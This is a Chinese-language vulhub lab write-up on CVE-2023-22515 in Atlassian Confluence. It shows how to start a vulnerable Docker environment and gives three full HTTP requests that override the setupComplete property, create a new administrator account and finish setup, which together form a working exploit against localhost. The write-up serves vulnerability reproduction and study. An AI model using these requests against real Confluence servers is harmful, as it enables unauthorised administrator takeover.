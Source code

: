 Confluence 属性覆盖导致权限绕过漏洞 (CVE-2023-22515)
========================================

Atlassian Confluence是企业广泛使用的wiki系统。

2023年10月4日，Atlassian官方发布了对于CVE-2023-22515漏洞的补丁。这个漏洞是由属性覆盖导致，利用该漏洞攻击者可以重新执行Confluence安装流程并增加管理员账户。

该漏洞不影响8.0.0以前的版本。

参考链接：

- <https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html>
- <https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis>

漏洞环境
----

执行如下命令启动一个Confluence Server 8.5.1：

```php
docker compose up -d
```

环境启动后，访问`http://your-ip:8090`即可进入安装向导，参考[CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。

![](https://shs3.b.qianxin.com/butian_public/f292615a260ce3e6ed884067e1e160cd3bbc5a4e57ab7.jpg)

漏洞复现
----

首先，最主要的请求就是覆盖目标Confluence服务器中的`bootstrapStatusProvider.applicationConfig.setupComplete`属性：

```php
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0

```

然后，你就可以使用如下请求创建一个新的管理员账户`vulhub`：

```php
POST /setup/setupadministrator.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
X-Atlassian-Token: no-check

username=vulhub&fullName=vulhub&email=admin%40vulhub.org&password=vulhub&confirm=vulhub&setup-next-button=Next
```

发送如下请求完成安装步骤：

```php
POST /setup/finishsetup.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
X-Atlassian-Token: no-check

```

最后，直接使用新的`vulhub`账户（密码同样是`vulhub`）来登录Confluence，可见新的管理员已成功增加：

![](https://shs3.b.qianxin.com/butian_public/f2207536b4bf84e0cc2caf831de1c2ed86b599879e99a.jpg)